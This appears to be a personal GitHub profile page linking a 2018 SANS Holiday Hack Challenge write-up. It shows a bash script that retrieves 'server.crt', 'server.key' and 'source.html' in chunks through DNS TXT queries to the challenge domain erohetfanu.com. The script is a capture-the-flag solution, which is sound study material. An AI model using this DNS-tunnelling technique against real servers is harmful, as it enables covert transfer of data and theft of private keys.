 ## 2018 SANS Holiday Hack Challenge Write-Up

Looking for my 2018 write-up? [Et voila!](files/CraHan%20-%20KringleCon%202018%20writeup.pdf)

```bash
#!/bin/bash

files=('server.crt' 'server.key' 'source.html')

for file in "${files[@]}" 
do
    # Convert filename to hex
    fnhex=$(xxd -pu <<< $file)

    # Strip the linefeed
    fnhex=${fnhex::-2}

    # DNS query requesting number of chunks
    chunks=$(host -t txt ${fnhex}.erohetfanu.com erohetfanu.com | \ 
    sed -n 's/.*\"\([0-9]*\)\".*/\1/p')

    # Check if value was returned
    if [ $chunks > 0 ]
    then
        echo "${file} found (${chunks} chunks)."

        if [ "$1" != "recon" ]
        then
            # Grab the file and save it to ${file}.hex
            echo -n "Grabbing chunk: "
            chunks=$(expr $chunks - 1)

            for chunk in $(eval echo "{0..$chunks}")
            do
                remainder=$(( chunk % 100 ))
                [ "$remainder" -eq 0 ] && echo -n "${chunk}..."

                host -t txt ${chunk}.${fnhex}.erohetfanu.com erohetfanu.com | \
                sed -n 's/.*\"\(.*\)\".*/\1/p' >> "${file}.hex"
            done

            printf "done.\n\n"
            
            # remove \n
            cat ${file}.hex | tr -d '\n' > ${file}-clean.hex

            # convert back to binary
            xxd -r -p ${file}-clean.hex ${file}
        fi
    else
        echo "${file} not found."
    fi
done
```

## Random

> Folks that throw dirt on you aren't always trying to hurt you, and folks that pull you out of a jam aren't always trying to help you. But the main point is when you're up to your nose in shit, keep your mouth shut.
> 
> -- <cite>Jack Beauregard</cite>

## Elsewhere

- [Twitter](https://www.twitter.com/crahan)
- [Instagram](https://instagram.com/crahan)
- [Github](https://github.com/crahan)
- [Pinboard](https://pinboard.in/u:crahan)
